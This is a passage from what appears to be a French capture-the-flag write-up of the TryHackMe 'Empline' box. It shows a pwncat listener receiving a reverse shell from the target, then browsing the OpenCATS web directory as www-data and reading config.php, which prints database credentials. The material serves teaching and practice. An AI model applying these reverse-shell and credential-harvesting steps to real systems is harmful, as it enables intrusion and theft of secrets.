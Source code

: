 On envoie un reverse shell.  

![page1](./Task1-09.png)   

On a notre notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_listen 1234
sudo pwncat -l 1234
[sudo] Mot de passe de tim : 
[23:20:55] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
[23:21:24] received connection from 10.10.184.66:36572                                                                                                                                                                              bind.py:76
[23:21:25] 0.0.0.0:1234: upgrading from /bin/dash to /bin/bash                                                                                                                                                                  manager.py:504
[23:21:26] 10.10.184.66:36572: registered new host w/ db                                                                                                                                                                        manager.py:504
(local) pwncat$
```

On a un shell.   

```bash
(remote) www-data@empline:/$ cd /var/www/opencats/
(remote) www-data@empline:/var/www/opencats$ ls 
CHANGELOG.MD   LICENSE.md    ajax	  careers	   ckeditor	  config.php	 docker  index.php	    js	      modules		rebuild_old_docs.php  src   upload  xml
Error.tpl      QueueCLI.php  ajax.php	  careersPage.css  composer.json  constants.php  ie.css  installtest.php    lib       not-ie.css	rss		      temp  vendor
INSTALL_BLOCK  README.md     attachments  ci		   composer.lock  db		 images  installwizard.php  main.css  optional-updates	scripts		      test  wsdl
```

On voit un fichier config.php.  

```bash
...
/* Database configuration. */
define('DATABASE_USER', 'james');
define('DATABASE_PASS', 'ng6pUFvsGNtw');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'opencats');
...
```
